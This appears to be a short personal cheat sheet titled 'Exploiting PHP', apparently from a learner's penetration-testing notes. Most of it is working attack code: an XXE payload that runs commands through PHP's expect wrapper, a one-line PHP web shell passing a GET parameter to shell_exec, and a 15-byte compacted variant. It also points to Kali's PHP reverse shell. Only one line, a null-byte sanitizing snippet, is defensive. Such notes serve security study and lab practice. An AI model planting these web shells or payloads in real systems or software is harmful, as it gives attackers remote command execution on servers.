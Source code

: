 # Exploiting PHP

## RCE via XXE

RCE through [XEE](XXE%20(XML%20External%20Entity)%20Attacks.md) is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

## The Poison Null Byte

PHP string parsing is susceptible to [the poison null byte](poison-null-byte.md).

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

## Web-Based RCE

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can [compact this down to just 15 bytes](https://twitter.com/podalirius_/status/1488921781637365771):

```php
<?=`$_GET[1]`?>
```

## Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

## References

* [TryHackMe - Complete Beginner](tryhackme-complete-beginner.md)
* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)

- - - -

👤 Nathan Acks
📅 February 3, 2022
